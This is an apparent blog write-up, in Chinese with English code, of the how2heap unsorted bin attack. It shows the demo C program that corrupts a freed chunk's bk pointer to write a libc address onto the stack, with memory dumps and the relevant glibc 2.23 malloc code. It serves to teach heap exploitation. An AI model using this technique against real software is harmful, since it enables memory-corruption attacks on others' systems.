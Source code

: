 ```yaml
---
title: how2heap - unsorted bin attack
categories:
  - how2heap
tags: null
published: true
---
```


# Overview

- [unsorted_bin_attack](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c)

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(400);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(400);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, target should has already been "
		   "rewrite:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

# Unsorted Bin Attack

这项攻击的主要效果是向内存中一个地址写一个很大的值，一般用作后续攻击的铺垫，比如修改全局变量 global_max_fast，
使定义 fastbin 的最大值更大，用于 fastbin attack。

程序目标为栈上的一个变量，首先 malloc 一块 smallbin 或 largebin 大小的 chunk。

```c
	unsigned long stack_var=0;

	unsigned long *p=malloc(400);


0x602000:   0x00000000  0x00000000  0x000001a1  0x00000000
0x602010:   0x00000000  0x00000000  0x00000000  0x00000000
0x602020:   0x00000000  0x00000000  0x00000000  0x00000000
0x602030:   0x00000000  0x00000000  0x00000000  0x00000000
0x602040:   0x00000000  0x00000000  0x00000000  0x00000000
...
```

然后释放掉它，模拟漏洞改写 `victim->bk` 指针为目标地址上方。

```c
	malloc(500);    // “隔层”

	free(p);

	p[1]=(unsigned long)(&stack_var-2);


0x602000:   0x00000000  0x00000000  0x000001a1  0x00000000
0x602010:   0xf7dd1b78  0x00007fff  0xffffdd68  0x00007fff -> target addr
0x602020:   0x00000000  0x00000000  0x00000000  0x00000000    - 2*(size_t)
0x602030:   0x00000000  0x00000000  0x00000000  0x00000000
0x602040:   0x00000000  0x00000000  0x00000000  0x00000000
...
```

再 malloc 一次即可。

```c
    malloc(400);

...
0x7fffffffdd68: 0x00400828  0x00000000  0x00400890  0x00000000
0x7fffffffdd78: 0xf7dd1b78  0x00007fff  0x00602010  0x00000000
...

...
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
...

(glibc-2.23: malloc.c # 3515)
```

运行结果：
![unsorted_bin_attack]({{ site.baseurl }}/images/unsorted_bin_attack.png)
